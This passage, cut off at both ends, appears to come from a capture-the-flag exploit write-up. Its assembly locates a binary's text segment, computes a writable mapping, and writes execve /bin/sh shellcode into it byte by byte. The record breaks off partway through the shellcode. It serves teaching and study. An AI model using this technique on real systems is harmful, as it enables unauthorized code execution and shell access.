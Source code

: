 lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x7f]
lea r14, [r13-0x7f]
lea r13, [r14-0x2e]
mov r14, r13
ret
</pre>
This awful assembly gives us the base of the text segment. Now comes the
math to get to the rw segment.
<pre>
add r14, 0x70
add r14, 0x70
add r14, 0x70
add r14, 0x70
add r14, 0x42
</pre>
Remember that each of these instructions is executed 0x1000 times. Now that
we have the base of that mapping, let's write our shellcode into it
<pre>
mov byte [r14], 0x6a
inc r14
ret
mov byte [r14], 0x68
inc r14
ret
mov byte [r14], 0x48
inc r14
ret
mov byte [r14], 0xb8
inc r14
ret
mov byte [r14], 0x2f
inc r14
ret
mov byte [r14], 0x62
inc r14
ret
mov byte [r14], 0x69
inc r14
ret
mov byte [r14], 0x6e
inc r14
ret
mov byte [r14], 0x2f
inc r14
ret
mov byte [r14], 0x2f
inc r14
ret
mov byte [r14], 0x2f
inc r14
ret
mov byte [r14], 0x73
inc r14
ret
mov byte [r14], 0x50
inc r14
ret
mov byte [r14], 0x48
inc r14